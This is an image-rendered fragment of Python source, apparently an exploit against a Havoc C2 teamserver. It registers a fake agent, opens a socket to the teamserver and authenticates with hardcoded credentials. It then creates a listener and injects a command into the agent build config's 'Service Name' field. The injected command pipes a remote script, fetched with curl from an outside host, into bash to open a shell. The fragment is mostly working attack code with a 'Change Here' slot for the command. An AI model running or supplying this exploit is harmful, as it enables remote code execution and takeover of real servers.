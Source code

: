 ```
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))
 
register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)
 
socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))
 
HOSTNAME = "127.0.0.1"
PORT = 40056
USER = "ilya"
PASSWORD = "CobaltStr1keSuckz!"
 
 
#upgrade http to websocet  so that we can use the second script
write_socket(socket_id,create_websocket_request(host=HOSTNAME, port=PORT))
 
# Authenticate to teamserver
payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
payload_json=json.dumps(payload)
write_socket(socket_id, build_websocket_frame(payload_json))
 
 
 
# Create a listener to build demon agent for
payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
payload_json=json.dumps(payload)
write_socket(socket_id, build_websocket_frame(payload_json))
 
 
# Create a psuedo shell with RCE loop   Change Here
cmd = 'curl http://10.10.16.2/shell.sh | bash'
 
injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""
# Command injection in demon compilation command
payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n    \"Amsi/Etw Patch\": \"None\",\n    \"Indirect Syscall\": false,\n    \"Injection\": {\n        \"Alloc\": \"Native/Syscall\",\n        \"Execute\": \"Native/Syscall\",\n        \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n        \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n    },\n    \"Jitter\": \"0\",\n    \"Proxy Loading\": \"None (LdrLoadDll)\",\n    \"Service Name\":\"" + injection + "\",\n    \"Sleep\": \"2\",\n    \"Sleep Jmp Gadget\": \"None\",\n    \"Sleep Technique\": \"WaitForSingleObjectEx\",\n    \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
    "Event": 5, "OneTime": "true", "Time": "18:39:04", "User": USER}}
 
payload_json=json.dumps(payload)
write_socket(socket_id, build_websocket_frame(payload_json))
```

